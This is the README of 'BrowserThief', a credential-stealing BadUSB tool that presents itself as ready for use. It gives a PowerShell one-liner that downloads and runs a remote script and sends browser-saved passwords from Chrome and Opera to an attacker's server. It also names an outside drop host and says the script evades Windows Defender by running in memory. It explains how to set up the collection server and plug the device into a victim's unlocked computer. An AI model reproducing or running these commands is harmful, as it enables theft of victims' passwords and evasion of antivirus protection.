 # BrowserThief
All in one Rubber Ducky/BadUSB that runs a powershell script to extract and steal browser-saved passwords and stash them at your Flask web server. It currently extract passwords from **Opera/OperaGX/Chrome**, I will be adding support for more browsers like Firefox soon!
<br/><br/>

<p align="center">
<img src="test/POV.gif?raw=true" width="800">
</p>
<br/>

## Features
- The powershell script runs in-memory and avoids writing to disk which evades Windows Defender detection
- Powershell execution policy doesn't affect it whatsoever
- Includes an arduino RubberDucky script that runs in less than 2 seconds
- Extracts Passwords from all Chrome Profiles, Opera and OperaGX
- Will be adding Firefox soon
<br/><br/>
## Setup

- Setup the web server that catches the passwords

```console
foo@bar:~$ sudo apt install docker.io
```

```console
foo@bar:~$ git clone https://github.com/RobinHirst11/BrowserThief
```

```console
foo@bar:~$ cd BrowserThief/Web
```

```console
foo@bar:~$ sudo bash build-docker.sh
```


## Instructions
- finish [Setup](https://github.com/RobinHirst11/BrowserThief#Setup) first!
- simply run the powershell script 
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/RobinHirst11/BrowserThief/main/BrowserThief.ps1');pumpndump -hq http://<Your-IP>:1337;exit
```
- Or you can use the rubber ducky for stealth/speed
	- Needs an Arduino that supports `<Keyboard.h>` (Nano, Leonardo)
	- Install Arduino IDE from their [website](https://wiki-content.arduino.cc/en/software)
	- Open `RubberDuckyScript.ino` using the IDE and replace `https://dump.silvercryptor.xyz` with your IP, check out [Setup](https://github.com/RobinHirst11/BrowserThief#Setup) to setup the Web server
	- Compile and upload the script to the arduino
	- Insert the usb to the victim's computer (needs to be unlocked)
	- Profit 💰💰💰


## PoC

### Victim POV
Just plug your bad usb and watch the magic
<p align="center">
<img src="test/victim.gif?raw=true" width="800">
</p>
<br/>

### Attacker POV
<p align="center">
<img src="test/attacker.gif?raw=true" width="800">
</p>

<br/>
